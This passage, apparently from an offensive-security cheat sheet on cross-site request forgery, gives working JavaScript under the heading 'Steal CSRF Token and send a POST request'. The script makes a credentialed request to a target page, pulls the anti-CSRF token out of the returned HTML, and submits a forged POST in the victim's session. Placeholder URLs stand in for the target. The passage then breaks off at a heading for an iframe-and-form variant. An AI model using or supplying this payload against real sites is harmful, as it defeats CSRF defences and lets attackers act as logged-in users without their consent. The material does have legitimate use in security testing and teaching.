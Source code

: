 #### **Steal CSRF Token and send a POST request**

```javascript
function submitFormWithTokenJS(token) {
    var xhr = new XMLHttpRequest();
    xhr.open("POST", POST_URL, true);
    xhr.withCredentials = true;

    // Send the proper header information along with the request
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

    // This is for debugging and can be removed
    xhr.onreadystatechange = function() {
        if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            //console.log(xhr.responseText);
        }
    }

    xhr.send("token=" + token + "&otherparama=heyyyy");
}

function getTokenJS() {
    var xhr = new XMLHttpRequest();
    // This tels it to return it as a HTML document
    xhr.responseType = "document";
    xhr.withCredentials = true;
    // true on the end of here makes the call asynchronous
    xhr.open("GET", GET_URL, true);
    xhr.onload = function (e) {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            // Get the document from the response
            page = xhr.response
            // Get the input element
            input = page.getElementById("token");
            // Show the token
            //console.log("The token is: " + input.value);
            // Use the token to submit the form
            submitFormWithTokenJS(input.value);
        }
    };
    // Make the request
    xhr.send(null);
}

var GET_URL="http://google.com?param=VALUE"
var POST_URL="http://google.com?param=VALUE"
getTokenJS();
```

#### **Steal CSRF Token and send a Post request using an iframe, a form and Ajax**
